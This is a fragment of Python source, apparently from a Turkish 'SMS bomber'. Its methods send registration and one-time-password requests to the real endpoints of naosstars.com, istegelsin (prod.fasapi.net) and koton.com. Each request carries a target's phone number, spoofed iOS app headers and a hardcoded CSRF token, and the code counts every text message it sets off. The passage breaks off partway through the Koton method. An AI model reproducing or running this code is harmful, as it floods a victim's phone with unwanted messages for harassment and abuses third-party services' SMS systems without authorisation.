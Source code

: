 
    #naosstars.com
    def Naosstars(self):
        try:
            url = "https://api.naosstars.com:443/api/smsSend/9c9fa861-cc5d-43b0-b4ea-1b541be15350"
            headers = {"Uniqid": "9c9fa861-cc5d-43c0-b4ea-1b541be15351", "User-Agent": "naosstars/1.0030 CFNetwork/1335.0.3.2 Darwin/21.6.0", "Access-Control-Allow-Origin": "*", "Locale": "en-TR", "Version": "1.0030", "Os": "ios", "Apiurl": "https://api.naosstars.com/api/", "Device-Id": "D41CE5F3-53BB-42CF-8611-B4FE7529C9BC", "Platform": "ios", "Accept-Language": "en-US,en;q=0.9", "Timezone": "Europe/Istanbul", "Globaluuidv4": "d57bd5d2-cf1e-420c-b43d-61117cf9b517", "Timezoneoffset": "-180", "Accept": "application/json", "Content-Type": "application/json; charset=utf-8", "Accept-Encoding": "gzip, deflate", "Apitype": "mobile_app"}
            json={"telephone": f"+90{self.phone}", "type": "register"}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.status_code == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> api.naosstars.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> api.naosstars.com")


    #istegelsin.com
    def Istegelsin(self):
        try:
            url = "https://prod.fasapi.net:443/"
            headers = {"Accept": "*/*", "Content-Type": "application/x-www-form-urlencoded", "App-Version": "2528", "Accept-Encoding": "gzip, deflate", "Platform": "IOS", "User-Agent": "ig-sonkullanici-ios/161 CFNetwork/1335.0.3.2 Darwin/21.6.0", "Accept-Language": "en-US,en;q=0.9"}
            json={"operationName": "SendOtp2", "query": "mutation SendOtp2($phoneNumber: String!) {\n  sendOtp2(phoneNumber: $phoneNumber) {\n    __typename\n    alreadySent\n    remainingTime\n  }\n}", "variables": {"phoneNumber": f"90{self.phone}"}}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["data"]["sendOtp2"]["alreadySent"] == False:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> prod.fasapi.net")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> prod.fasapi.net")


    #koton.com
    def Koton(self):
        try:
            url = "https://www.koton.com:443/users/register/"
            headers = {"Content-Type": "multipart/form-data; boundary=sCv.9kRG73vio8N7iLrbpV44ULO8G2i.WSaA4mDZYEJFhSER.LodSGKMFSaEQNr65gHXhk", "X-Project-Name": "rn-env", "Accept": "application/json, text/plain, */*", "X-App-Type": "akinon-mobile", "X-Requested-With": "XMLHttpRequest", "Accept-Language": "en-US,en;q=0.9", "Cache-Control": "no-store", "Accept-Encoding": "gzip, deflate", "X-App-Device": "ios", "Referer": "https://www.koton.com/", "User-Agent": "Koton/1 CFNetwork/1335.0.3.2 Darwin/21.6.0", "X-Csrftoken": "5DDwCmziQhjSP9iGhYE956HHw7wGbEhk5kef26XMFwhELJAWeaPK3A3vufxzuWcz"}